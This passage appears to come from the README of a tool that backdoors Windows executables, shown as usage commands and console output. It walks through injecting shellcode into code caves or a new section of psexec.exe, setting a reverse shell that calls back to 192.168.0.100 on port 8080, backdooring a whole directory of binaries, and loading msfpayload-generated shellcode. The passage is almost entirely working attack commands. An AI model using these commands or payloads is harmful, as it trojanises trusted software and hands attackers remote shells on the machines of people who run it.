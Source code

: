     4. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eaf1 End: 0x2ecdd; Cave Size: 492
    5. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2ece7 End: 0x2eee0; Cave Size: 505
    6. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2eef3 End: 0x2f0e5; Cave Size: 498
    7. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f0fb End: 0x2f2ea; Cave Size: 495
    8. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f2ff End: 0x2f4f8; Cave Size: 505
    9. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f571 End: 0x2f7a0; Cave Size: 559
    10. Section Name: .rsrc; Section Begin: 0x30600 End: 0x5f200; Cave begin: 0x5b239 End: 0x5b468; Cave Size: 559
    **************************************************
    [!] Enter your selection: 5
    Using selection: 5
    [*] Changing Section Flags
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch an exe/dll by adding a code section:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp_inline -a 
    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Creating Code Cave
    - Adding a new section to the exe/dll for shellcode injection
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch a directory of exes:
    ./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a
    ...output too long for README...

---

###User supplied shellcode:
    msfpayload windows/exec CMD='calc.exe' R > calc.bin
    ./backdoor.py -f psexec.exe -s user_supplied_shellcode -U calc.bin
    This will pop calc.exe on a target windows workstation. So 1337. Much pwn. Wow.

---
